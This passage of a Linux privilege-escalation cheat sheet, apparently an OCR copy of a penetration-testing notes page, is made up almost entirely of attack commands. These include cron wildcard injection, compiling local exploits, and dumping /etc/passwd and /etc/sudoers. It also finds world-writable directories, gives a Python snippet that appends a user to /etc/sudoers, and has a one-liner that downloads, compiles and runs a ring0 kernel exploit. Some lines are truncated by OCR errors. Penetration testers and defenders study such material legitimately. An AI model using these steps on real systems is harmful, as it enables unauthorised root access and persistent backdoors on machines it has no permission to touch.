 Wildcard injection if there is a cron with a wildcard in the command line, you can create a file, whose name will be passed as an argument to the cron task, For more info:

```
https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562
```

compile exploit fix error

```
gcc 9545.c -o 9545 -Wl,--hash-style=both
```

Find other uses in the system

```
 $id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l
```

```
grep home /etc/passwd|cut -d: -f1
```

#### World readable/writable files:

```
cho "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Find world-readable files:

```
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
```

Find nobody owned files

```
ind /dir -xdev \( -nouser -o -nogroup \) -print
```

Add user to sudoers in python.

```
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

Ring0 kernel exploit for 2.3/2.4

```
wget http://downloads.securityfocus.com/vulnerabilities/exploits/36038-6.c; gcc 36038-6.c -m32 -o ring0; chmod +x ring0; ./ring0
```
